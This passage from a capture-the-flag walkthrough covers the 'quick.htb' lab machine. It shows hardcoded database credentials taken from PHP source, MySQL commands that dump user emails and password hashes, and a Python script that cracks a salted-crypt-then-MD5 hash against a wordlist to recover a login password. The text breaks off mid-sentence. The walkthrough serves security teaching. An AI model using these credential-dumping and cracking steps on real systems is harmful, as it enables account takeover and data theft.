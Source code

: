 ```
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
```

Looks like we have mysql credentials!

```
mysql -udb_adm -pdb_p4ss
use quick;
select * from users;

+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
```

Looks like we have some hashed passwords! They're MD5 strings, but they aren't crackable in their current form. Let's see if we can figure out how they're being hashed:

```
cat /var/www/html/login.php

...
        $email=$_POST["email"];                  
        $password = $_POST["password"];                                                                              
        $password = md5(crypt($password,'fa'));          
...
```

It looks like they're being encrypted with the default encryption scheme for Linux, then hashed with md5. We can create a small script to decrypt the new password relatively quickly:

```
#coding utf-8
import hashlib
import crypt

filepath = 'rockyou.txt'
count = 0
with open(filepath, 'r', errors='ignore') as fp:
   line = fp.readline()
   while line:
          hashone = crypt.crypt(line.strip(), 'fa')
          hashtwo = hashlib.md5(hashone.encode())
          if hashtwo.hexdigest() == 'e626d51f8fbfd1124fdea88396c35d05':
                 print(line)
          line = fp.readline()
```

We get "yl51pbx", which works with the email in the database on the website:
